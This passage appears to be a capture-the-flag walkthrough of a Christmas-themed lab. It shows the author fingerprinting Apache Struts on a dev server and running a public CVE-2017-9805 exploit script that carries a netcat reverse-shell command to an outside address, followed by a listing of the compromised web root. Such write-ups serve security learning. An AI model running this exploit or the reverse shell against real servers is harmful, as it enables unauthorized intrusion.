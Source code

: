 ![Dev Domain](./images/dev.png)

This seems like a clear enough hint that the server is running Apache Struts, and maybe we should look
for an exploit targeting struts.

If we generate a 404 we can also see the server is running `Apache Tomcat/6.0.41` - https://dev.northpolechristmastown.com/404

Looking up more information about Apache Struts exploits, this blog post was found with an almost identical website setup - http://robwillis.info/2017/09/exploiting-apache-struts-cve-2017-9805/

Using the same exploit they used in the blog post worked right away - https://www.exploit-db.com/exploits/42627/
Running this script for CVE-2017-9805 with the following arguments allowed a foothold into the network:

```sh
python struts-42627.py https://dev.northpolechristmastown.com "nc -e /bin/sh [ip-addr] 4343"
```

(A copy of the struts exploit used can be found [here](./scripts/struts-exploit/struts-42627.py))

Looking in `/var/www/html` we find the next GreatBookPage, #2:

```sh
alabaster_snowball@l2s:/var/www/html$ ls -la
ls -la
total 1772
drwxrwxrwt 6 www-data           www-data              4096 Dec 17 10:30 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
-rw-r--r-- 1 alabaster_snowball alabaster_snowball     340 Dec 17 10:32 s.php
```